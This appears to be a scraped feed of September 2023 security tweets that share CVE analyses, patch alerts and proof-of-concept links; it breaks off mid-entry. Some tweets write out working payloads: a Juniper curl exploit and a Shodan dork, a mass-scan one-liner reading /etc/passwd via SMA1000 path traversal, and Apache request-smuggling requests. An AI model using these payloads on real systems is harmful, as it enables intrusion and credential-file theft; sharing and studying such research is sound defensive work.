

# 0xor0ne
**https://twitter.com/0xor0ne/status/1708021407970463944 _at 2023-09-30, 07:30:11_**
<blockquote>
Analysis of an RCE vulnerability affecting the Microsoft Message Queueing (MSMQ) service (CVE-2023-21554).
Great work by Valentina Palmiotti (@chompie1337), Fabius Watson (@FabiusArtrel), and Aaron Portnoy (@aaronportnoy)

https://t.co/b8tNhGALSF

#exploit #rce #cybersecurity https://t.co/fxanxj5TE5
</blockquote>

* https://securityintelligence.com/posts/msmq-queuejumper-rce-vulnerability-technical-analysis/#

<table><tr>
<td></td>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>49</code></td>
<td>Favorites: <code>166</code></td>
</tr></table>

---

# pyotam2
**https://twitter.com/pyotam2/status/1707886125988061450 _at 2023-09-29, 22:32:38_**
<blockquote>
There is a lot of confusion and a lot of interesting aspects about the 𝐀𝐂𝐓𝐈𝐕𝐄𝐋𝐘 𝐄𝐗𝐏𝐋𝐎𝐈𝐓𝐄𝐃 #libwebp vulnerability CVE-2023-4863.

I'll try to breakdown the chain of events in this thread 🧵
(1/12)
#CyberSecurity #CVE #Meme https://t.co/ORNP7Cm8L1
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>102</code></td>
<td>Favorites: <code>409</code></td>
</tr></table>

---

# stephenfewer
**https://twitter.com/stephenfewer/status/1707827824269095280 _at 2023-09-29, 18:40:57_**
<blockquote>
This weeks @metasploit release includes our JetBrains TeamCity exploit module (CVE-2023-42793). Unauthenticated RCE due to an auth bypass vuln, all versions prior to 2023.05.4 are affected. Read the details here: https://t.co/S0X42e6ZDD https://t.co/beTtHVTD9T
</blockquote>

* https://www.rapid7.com/blog/post/2023/09/29/metasploit-weekly-wrap-up-29/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>38</code></td>
<td>Favorites: <code>94</code></td>
</tr></table>

---

# hack_git
**https://twitter.com/hack_git/status/1707675835312808424 _at 2023-09-29, 08:37:00_**
<blockquote>
CVE-2023-43770

Roundcube allows XSS via text/plain e-mail messages

https://t.co/oiSI0LquIA

#cve #cybersecurity #infosec https://t.co/lSOTeulXAr
</blockquote>

* https://github.com/s3cb0y/CVE-2023-43770-POC

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>5</code></td>
<td>Favorites: <code>49</code></td>
</tr></table>

---

# hosselot
**https://twitter.com/hosselot/status/1707385476364312871 _at 2023-09-28, 13:23:13_**
<blockquote>
New Google Chrome In-The-Wild vulnerability used by a commercial surveillance vendor is a buffer overflow in vp8 encoding in libvpx (CVE-2023-5217 [1486441]) and happens due to allowing thread count change after encoder creation:
https://t.co/CrswteBsh3
</blockquote>

* https://chromium.googlesource.com/webm/libvpx/+/3fbd1dca6a4d2dad332a2110d646e4ffef36d590

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>10</code></td>
<td>Favorites: <code>60</code></td>
</tr></table>

---

# sector7_nl
**https://twitter.com/sector7_nl/status/1707363257730625757 _at 2023-09-28, 11:54:56_**
<blockquote>
You may have read about CVE-2023-38146 (ThemeBleed)'s use for code exec, but did you know that it is just as good for privilege escalation too?

Full details &amp; writeup:
https://t.co/pbnBfmKu9t
</blockquote>

* https://sector7.computest.nl/post/2023-09-getting-system-on-windows-in-style/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>29</code></td>
<td>Favorites: <code>58</code></td>
</tr></table>

---

# zapstiko
**https://twitter.com/zapstiko/status/1707333333292838946 _at 2023-09-28, 09:56:02_**
<blockquote>
finally Juniper - Remote Code Execution 🔥 ( CVE-2023-36845 )  
Shodan Dork : title:"Juniper" http.favicon.hash:2141724739  

Poc: curl &lt;TARGET&gt; -F $'auto_prepend_file="/etc/passwd\n"' -F 'PHPRC=/dev/fd/0'

#bugbountytips #bugbounty #CVE-2023-36845 #RCE https://t.co/FbXzJzcxHW
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>107</code></td>
<td>Favorites: <code>285</code></td>
</tr></table>

---

# piedpiper1616
**https://twitter.com/piedpiper1616/status/1707274960434328021 _at 2023-09-28, 06:04:04_**
<blockquote>
GitHub - s3cb0y/CVE-2023-43770-POC: A Proof-Of-Concept for the CVE-2023-43770 vulnerability. - https://t.co/0tSLo2vC2G
</blockquote>

* https://github.com/s3cb0y/CVE-2023-43770-POC

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>33</code></td>
<td>Favorites: <code>95</code></td>
</tr></table>

---

# thecybertix
**https://twitter.com/thecybertix/status/1707268135907475495 _at 2023-09-28, 05:36:57_**
<blockquote>
CVE-2023-0126 Pre-authentication path traversal vulnerability in SMA1000

One Liner
cat file.txt| while read host do;do curl -sk "http://$host:8443/images//////////////////../../../../../../../../etc/passwd" | grep -i 'root:' &amp;&amp; echo $host "is VULN";done

#bugbountytips #bug #CVE https://t.co/shFnrXWTX5
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>33</code></td>
<td>Favorites: <code>126</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1707232255364448394 _at 2023-09-28, 03:14:23_**
<blockquote>
🚨 Urgent Update: #Google has released a Chrome update to patch a new high-severity zero-day #vulnerability (CVE-2023-5217) that is being exploited in the wild.

Read: https://t.co/LJNdD2BJHi

#infosec #cybersecurity #informationsecurity
</blockquote>

* https://thehackernews.com/2023/09/update-chrome-now-google-releases-patch.html

<table><tr>
<td>Quotes: <code>14</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>238</code></td>
<td>Favorites: <code>343</code></td>
</tr></table>

---

# wallet_guard
**https://twitter.com/wallet_guard/status/1707162938669142435 _at 2023-09-27, 22:38:56_**
<blockquote>
⚠️ CRITICAL ALERT
🚨 ZERO-DAY on Chrome

Google has patched the fifth Chrome zero-day vulnerability exploited in attacks since the start of the year in emergency security updates released today.

UPDATE YOUR DEVICES NOW &amp; PLEASE SHARE!

CVE-2023-5217 https://t.co/ErkYnLWleG
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>9</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>93</code></td>
<td>Favorites: <code>206</code></td>
</tr></table>

---

# DailyDarkWeb
**https://twitter.com/DailyDarkWeb/status/1707062549022142473 _at 2023-09-27, 16:00:02_**
<blockquote>
CVE-2023-29357

CVSS score: 9.8

Affected product(s),verison(s): Microsoft SharePoint

An attacker exploiting this flaw could gain administrator-level privileges without requiring any prior authentication.

https://t.co/kDz1J8tOaW

#cybersecurity #infosec #exploit https://t.co/yETUrSaym8
</blockquote>

* https://nvd.nist.gov/vuln/detail/CVE-2023-29357

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>84</code></td>
<td>Favorites: <code>274</code></td>
</tr></table>

---

# 0vercl0k
**https://twitter.com/0vercl0k/status/1707045929713639602 _at 2023-09-27, 14:53:59_**
<blockquote>
RT @mmolgtm: In this post I'll use CVE-2023-3420, an incorrect side effect modelling bug in the JIT compiler that I reported to Chrome, to…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>90</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# chybeta
**https://twitter.com/chybeta/status/1706921047197639071 _at 2023-09-27, 06:37:45_**
<blockquote>
CVE-2023-35813 sitecore RCE https://t.co/Ib7EEwXbxZ
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>25</code></td>
<td>Favorites: <code>138</code></td>
</tr></table>

---

# l33d0hyun
**https://twitter.com/l33d0hyun/status/1706795049915453649 _at 2023-09-26, 22:17:05_**
<blockquote>
new Apple updates!

- CVE-2023-39434 : WebKit GPU Use-After-Free
    - webkit commit : 249451
- CVE-2023-40403 : libxslt Information Disclosure (Works in Safari)
- Additional recognition

In the case of CVE-2023-39434, there are many changes in the patch. https://t.co/pzADoaTZq0
</blockquote>

<table><tr>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>6</code></td>
<td>Favorites: <code>54</code></td>
</tr></table>

---

# Gi7w0rm
**https://twitter.com/Gi7w0rm/status/1706764212704591953 _at 2023-09-26, 20:14:33_**
<blockquote>
My friend @Chocapikk_ was able to replicate #CVE-2023-29357. It's an #authentication #bypass in @Microsoft #SharePoint API.

The #PoC can be found here:
https://t.co/hZlJauYFET

This can be extended to #RCE! Please #patch now!
</blockquote>

* https://github.com/Chocapikk/CVE-2023-29357

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>105</code></td>
<td>Favorites: <code>270</code></td>
</tr></table>

---

# mmolgtm
**https://twitter.com/mmolgtm/status/1706688276801667114 _at 2023-09-26, 15:12:48_**
<blockquote>
In this post I'll use CVE-2023-3420, an incorrect side effect modelling bug in the JIT compiler that I reported to Chrome, to gain a sandboxed remote code execution in the renderer: https://t.co/mFdIXuM7xY
</blockquote>

* https://github.blog/2023-09-26-getting-rce-in-chrome-with-incorrect-side-effect-in-the-jit-compiler/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>111</code></td>
<td>Favorites: <code>295</code></td>
</tr></table>

---

# 0xor0ne
**https://twitter.com/0xor0ne/status/1706628455796703544 _at 2023-09-26, 11:15:06_**
<blockquote>
Introduction and practice to Linux kernel exploitation using CVE-2022-2602 as example

@LukeGix: https://t.co/YEj7ldOz9f
@kiks7_7: https://t.co/oyfoaewegv

#Linux #kernel #exploit #infosec #cybersecurity https://t.co/b26LHk1maH
</blockquote>

* https://exploiter.dev/blog/2022/CVE-2022-2602.html
* https://blog.hacktivesecurity.com/index.php/2022/12/21/cve-2022-2602-dirtycred-file-exploitation-applied-on-an-io_uring-uaf/

<table><tr>
<td></td>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>66</code></td>
<td>Favorites: <code>232</code></td>
</tr></table>

---

# ptswarm
**https://twitter.com/ptswarm/status/1706223917008834748 _at 2023-09-25, 08:27:36_**
<blockquote>
🔥 We have reproduced the fresh CVE-2023-42793 in JetBrains TeamCity.

Authentication bypass allows an external attacker to gain administrative access to the server and execute any commands on it.  

Update your software ASAP! https://t.co/DXp2gJ1HTq
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>86</code></td>
<td>Favorites: <code>367</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1706030025588330861 _at 2023-09-24, 19:37:09_**
<blockquote>
Analysis of CVE-2023-38831 Zero-Day vulnerability in WinRAR https://t.co/RpinS7oKpq
</blockquote>

* https://blog.securelayer7.net/analysis-of-cve-2023-38831-zero-day-vulnerability-in-winrar-2/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>31</code></td>
<td>Favorites: <code>83</code></td>
</tr></table>

---

# hosselot
**https://twitter.com/hosselot/status/1705968257205670082 _at 2023-09-24, 15:31:42_**
<blockquote>
Chrome In-The-Wild type confusion vulnerability used in the Android Exploit Chain to install Predator on Android devices in Egypt (CVE-2023-4762 [1473247]) happens during handling of growing a non-JSArray packed elements kind within turbofan:
https://t.co/qQ99LkwaMI
</blockquote>

* https://chromium.googlesource.com/v8/v8.git/+/ae7dc61652805bc8e2b060d53b2b6da7cf846b6f

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>21</code></td>
<td>Favorites: <code>92</code></td>
</tr></table>

---

# piedpiper1616
**https://twitter.com/piedpiper1616/status/1705962582774104064 _at 2023-09-24, 15:09:09_**
<blockquote>
RT @nguyendt016: POC for CVE-2023-41892 (Craft CMS Remote Code Execution):
https://t.co/x5PMK0hOaS

#CVE #CraftCMS
</blockquote>

* https://gist.github.com/to016/b796ca3275fa11b5ab9594b1522f7226

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>37</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# 0xor0ne
**https://twitter.com/0xor0ne/status/1705847042843492538 _at 2023-09-24, 07:30:02_**
<blockquote>
Interesting reading on Windows privilege escalation through Use-After-Free (UAF) in win32kfull (CVE-2023-21822)
Credits Marcin Wiązowski (@thezdi)

https://t.co/H842SjZa71

#exploit #Windows #infosec https://t.co/c5H0IwuJt2
</blockquote>

* https://www.zerodayinitiative.com/blog/2023/8/1/exploiting-a-flaw-in-bitmap-handling-in-windows-user-mode-printer-drivers

<table><tr>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>71</code></td>
<td>Favorites: <code>240</code></td>
</tr></table>

---

# payloadartist
**https://twitter.com/payloadartist/status/1705652239707042136 _at 2023-09-23, 18:35:58_**
<blockquote>
The WebP #0day 

https://t.co/sWQGYrvmR4 

Interesting Technical Breakdown Of Heap buffer overflow in WebP in Google Chrome (CVE-2023-4863) By @benhawkes

#infosec #cybersecurity #hacking https://t.co/GjfejukxLi
</blockquote>

* https://blog.isosceles.com/the-webp-0day/

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>11</code></td>
<td>Favorites: <code>41</code></td>
</tr></table>

---

# 0xor0ne
**https://twitter.com/0xor0ne/status/1705484662506721719 _at 2023-09-23, 07:30:04_**
<blockquote>
VirtualBox exploitation on Windows (CVE-2023-21987 and CVE-2023-21991)

https://t.co/E3vPy2raRR

#virtualbox #infosec https://t.co/ItzjPNBfqI
</blockquote>

* https://qriousec.github.io/post/vbox-pwn2own-2023/

<table><tr>
<td></td>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>145</code></td>
<td>Favorites: <code>513</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1705279848279584988 _at 2023-09-22, 17:56:13_**
<blockquote>
PoC released for Chrome zero-day CVE-2023-4863 vulnerability https://t.co/PaGnSvv4gq
</blockquote>

* https://securityonline.info/poc-released-for-chrome-zero-day-cve-2023-4863-vulnerability/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>78</code></td>
</tr></table>

---

# wallet_guard
**https://twitter.com/wallet_guard/status/1704938332252262855 _at 2023-09-21, 19:19:09_**
<blockquote>
⚠️ CRITICAL ALERT
🚨 ZERO-DAY on iOS &amp; macOS DEVICES

Apple fixed a WebKit Zero-Day allowing attackers to execute arbitrary code on compromised devices.

UPDATE YOUR DEVICES NOW &amp; PLEASE SHARE

CVE-2023-41993, CVE-2023-41991, CVE-2023-41992 https://t.co/mwIeAlOeFd
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>27</code></td>
<td>Replies: <code>19</code></td>
<td>Retweets: <code>192</code></td>
<td>Favorites: <code>379</code></td>
</tr></table>

---

# benhawkes
**https://twitter.com/benhawkes/status/1704908471815356506 _at 2023-09-21, 17:20:30_**
<blockquote>
"The WebP 0day" -- a full technical analysis the recently patched vulnerability in the WebP image library that was exploited in the wild (CVE-2023-4863). https://t.co/6yUcE9sOZa
</blockquote>

* https://blog.isosceles.com/the-webp-0day/

<table><tr>
<td>Quotes: <code>32</code></td>
<td>Replies: <code>15</code></td>
<td>Retweets: <code>336</code></td>
<td>Favorites: <code>846</code></td>
</tr></table>

---

# 0xor0ne
**https://twitter.com/0xor0ne/status/1703853922509582353 _at 2023-09-18, 19:30:05_**
<blockquote>
Exploiting a spinlock use-after-free (Android Binder (CVE-2022-20421))
Excellent research work by Moshe Kol 

Paper: https://t.co/pqq4LfDRQF
OffensiveCon 23 slides: https://t.co/1x5BjBmrgZ

#android #Linux #kernel #exploit https://t.co/2CXNHFOEmw
</blockquote>

* https://0xkol.github.io/assets/files/Racing_Against_the_Lock__Exploiting_Spinlock_UAF_in_the_Android_Kernel.pdf
* https://0xkol.github.io/assets/files/OffensiveCon23_Racing_Against_the_Lock__Exploiting_Spinlock_UAF_in_the_Android_Kernel.pdf

<table><tr>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>38</code></td>
<td>Favorites: <code>132</code></td>
</tr></table>

---

# chybeta
**https://twitter.com/chybeta/status/1703685169637704121 _at 2023-09-18, 08:19:32_**
<blockquote>
CVE-2023-41892 Craftcms RCE using PHP reflection https://t.co/SHFQ5MGX9B
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>59</code></td>
<td>Favorites: <code>346</code></td>
</tr></table>

---

# TodayCyberNews
**https://twitter.com/TodayCyberNews/status/1703386650540483069 _at 2023-09-17, 12:33:19_**
<blockquote>
🥸 UPGer | CVE-2022-4060 - User Post Gallery.

- Automatic Mass Tool for checking vulnerability in CVE-2022-4060 - WordPress Plugin : User Post Gallery &lt;= 2.19 - Unauthenticated RCE

URL:- https://t.co/w56qA1flXE

👀Check Out Old Tweets Of @TodayCyberNews

#CyberSecurity https://t.co/JjbevijVyD
</blockquote>

* https://github.com/im-hanzou/UPGer

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>11</code></td>
<td>Favorites: <code>59</code></td>
</tr></table>

---

# blackorbird
**https://twitter.com/blackorbird/status/1702574818909102491 _at 2023-09-15, 06:47:23_**
<blockquote>
North Korean hackers exploits WinRAR vulnerability (CVE-2023-38831) to attack the digital currency industry.
wallet_Screenshot_2023_09_06_Qbao_Network.zip
https://t.co/pH3k59XIQi
report:
https://t.co/b5skBlHn3J https://t.co/AG1uaGUiH7
</blockquote>

* https://www.virustotal.com/gui/file/40d1ebcca7ed35da9776383abca3e7ec6b70aec53c739aef773cdb90726f46c0
* https://paper.seebug.org/3032/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>90</code></td>
<td>Favorites: <code>266</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1702246880439099715 _at 2023-09-14, 09:04:17_**
<blockquote>
CVE-2023-38146: Arbitrary Code Execution via Windows Themes. A series of issues exist on Windows 11 which can lead to arbitrary code being executed when a user loads a .theme file.

PoC
https://t.co/8TEHPZjO0w https://t.co/SbZz9R9gJH
</blockquote>

* https://exploits.forsale/themebleed/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>18</code></td>
<td>Favorites: <code>64</code></td>
</tr></table>

---

# blackorbird
**https://twitter.com/blackorbird/status/1701785666005430395 _at 2023-09-13, 02:31:35_**
<blockquote>
New Chrome 0day 
CVE-2023-4863
I saw the person who submitted the vulnerability and wondered if it was related to Pegasus.
https://t.co/fIcSSRholN https://t.co/HpRyizECyF
</blockquote>

* https://chromereleases.googleblog.com/2023/09/stable-channel-update-for-desktop_11.html

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>50</code></td>
<td>Favorites: <code>113</code></td>
</tr></table>

---

# Fox0x01
**https://twitter.com/Fox0x01/status/1701624762059895228 _at 2023-09-12, 15:52:12_**
<blockquote>
Time for an Arm-twist! CVE-2023-4039

Tom Hebb (Meta red team) and I discovered an 0day in GCC (for AArch64 targets) during my Arm exploitation training. 

It renders stack canaries against overflows of dynamically-sized variables useless. 

https://t.co/q0vX86e9gK https://t.co/0NDB39Xg8f
</blockquote>

* https://github.com/metaredteam/external-disclosures/security/advisories/GHSA-x7ch-h5rf-w2mf

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>10</code></td>
<td>Replies: <code>11</code></td>
<td>Retweets: <code>160</code></td>
<td>Favorites: <code>642</code></td>
</tr></table>

---

# _odisseus
**https://twitter.com/_odisseus/status/1701503581906497645 _at 2023-09-12, 07:50:40_**
<blockquote>
RT @0xor0ne: CVE-2022-34718: Patch analysis, bug identification and exploit development (Windows TCP/IP Remote Code Execution Vulnerability…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>98</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1701465123095785662 _at 2023-09-12, 05:17:51_**
<blockquote>
Urgent: Google releases patch for a new Chrome zero-day #vulnerability (CVE-2023-4863) that's being exploited in the wild.

Read: https://t.co/41SANY0lKi

Don't wait—update your browser now to protect against potential cyber threats.

#cybersecurity #informationsecurity
</blockquote>

* https://thehackernews.com/2023/09/google-rushes-to-patch-critical-chrome.html

<table><tr>
<td>Quotes: <code>13</code></td>
<td>Replies: <code>10</code></td>
<td>Retweets: <code>292</code></td>
<td>Favorites: <code>470</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1701463569550782635 _at 2023-09-12, 05:11:41_**
<blockquote>
CVE-2023-4863: Critical Chrome 0-day Bug Under Active Attacks https://t.co/SamFLswF3L
</blockquote>

* https://securityonline.info/cve-2023-4863-new-chrome-0-day-bug-under-active-attacks/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>82</code></td>
<td>Favorites: <code>196</code></td>
</tr></table>

---

# kmkz_security
**https://twitter.com/kmkz_security/status/1701419315377979502 _at 2023-09-12, 02:15:50_**
<blockquote>
Analysis of CVE-2023-29336 Win32k Privilege Escalation Vulnerability (with POC)
https://t.co/pXliVqFEgg
</blockquote>

* https://www.numencyber.com/cve-2023-29336-win32k-analysis/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>117</code></td>
<td>Favorites: <code>295</code></td>
</tr></table>

---

# hosselot
**https://twitter.com/hosselot/status/1701351922953748881 _at 2023-09-11, 21:48:02_**
<blockquote>
The new In-The-Wild Google Chrome Heap buffer overflow in WebP (CVE-2023-4863) is due to an out-of-bounds write vulnerability within the "BuildHuffmanTable" function:
https://t.co/74LEkbLeCO
</blockquote>

* https://chromium.googlesource.com/webm/libwebp.git/+/2af26267cdfcb63a88e5c74a85927a12d6ca1d76

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>24</code></td>
<td>Favorites: <code>105</code></td>
</tr></table>

---

# 0xor0ne
**https://twitter.com/0xor0ne/status/1701271939149389927 _at 2023-09-11, 16:30:13_**
<blockquote>
CVE-2022-34718: Patch analysis, bug identification and exploit development (Windows TCP/IP Remote Code Execution Vulnerability)
Excellent blog post by @chompie1337 

https://t.co/ZDEOVqM765 

#cybersecurity #cve #exploit https://t.co/7WfuQUqbeG
</blockquote>

* https://securityintelligence.com/posts/dissecting-exploiting-tcp-ip-rce-vulnerability-evilesp/

<table><tr>
<td></td>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>91</code></td>
<td>Favorites: <code>264</code></td>
</tr></table>

---

# AndrewOliveau
**https://twitter.com/AndrewOliveau/status/1701236395237392752 _at 2023-09-11, 14:08:58_**
<blockquote>
💥BOOM!💥 Another privilege escalation blog, this time showcasing how to convert arbitrary file deletions 🗑️ to SYSTEM command prompt🌈 CVE-2023-27470. Learn about TOCTOU, pseudo-symlinks, MSI rollback exploits, and, of course, how to protect yourselves!

https://t.co/S3HCXdvoBY
</blockquote>

* https://www.mandiant.com/resources/blog/arbitrary-file-deletion-vulnerabilities

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>208</code></td>
<td>Favorites: <code>530</code></td>
</tr></table>

---

# hosselot
**https://twitter.com/hosselot/status/1700228420620190042 _at 2023-09-08, 19:23:38_**
<blockquote>
The Chromium bug entry is now open with a PoC (CVE-2023-3079):
https://t.co/FlqP95rvWN
</blockquote>

* https://bugs.chromium.org/p/chromium/issues/detail?id=1450481

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>13</code></td>
<td>Favorites: <code>58</code></td>
</tr></table>

---

# alisaesage
**https://twitter.com/alisaesage/status/1699702365337870413 _at 2023-09-07, 08:33:17_**
<blockquote>
More good stuff on Chrome RCE vuln research: @bjrjk wrote a super deep dive analysis of CVE-2022-4262, a non-trivial type confusion in v8 JavaScript engine which I reverse-engineered from patch early this year and briefly covered in my PHDays talk in May:  https://t.co/lhWuQPXngG
</blockquote>

* https://github.com/bjrjk/CVE-2022-4262/blob/main/CVE-2022-4262.md

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>30</code></td>
<td>Favorites: <code>120</code></td>
</tr></table>

---

# therceman
**https://twitter.com/therceman/status/1699308330483679734 _at 2023-09-06, 06:27:32_**
<blockquote>
Bug Bounty CheatSheet

jQuery XSS Payloads

🔹 CVE-2020-11023
🔹 CVE-2020-11022
🔹 CVE-2019-11358

🔗 https://t.co/oTs35kc78N https://t.co/NDiWluSi7E
</blockquote>

* https://github.com/cve-sandbox/jquery

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>68</code></td>
<td>Favorites: <code>299</code></td>
</tr></table>

---

# TodayCyberNews
**https://twitter.com/TodayCyberNews/status/1699289891518193936 _at 2023-09-06, 05:14:16_**
<blockquote>
⚠️ CVE-2023-25690 (  POC )

- Apache HTTP Server mod_proxy 

CLRF Injection
GET /categories/1%20HTTP/1.1%0d%0aFoo:%20baarr HTTP/1.1
Host: 

Header Injection
GET /categories/1%20HTTP/1.1%0d%0aHost:%20localhost%0d%0a%0d%0aGET%20/SMUGGLED HTTP/1.1
Host: 1.1.1.1

GitHub URL :- https://t.co/F71FfNcDDh
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>219</code></td>
<td>Favorites: <code>605</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1699232831883628673 _at 2023-09-06, 01:27:31_**
<blockquote>
[PoC] [CVE-2023-25690] Apache HTTP Server mod_proxy vul

CLRF Injection
GET /categories/1%20HTTP/1.1%0d%0aFoo:%20baarr HTTP/1.1
Host: 

Header Injection
GET /categories/1%20HTTP/1.1%0d%0aHost:%20localhost%0d%0a%0d%0aGET%20/SMUGGLED HTTP/1.1
Host: 1.1.1.1

https://t.co/st5iVALH8V
</blockquote>

* https://github.com/dhmosfunk/CVE-2023-25690-POC

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>123</code></td>
<td>Favorites: <code>324</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1698986999221453084 _at 2023-09-05, 09:10:40_**
<blockquote>
[PoC] [CVE-2023-2868] Barracuda Email Security Gateway Appliance (ESG) Vulnerability 

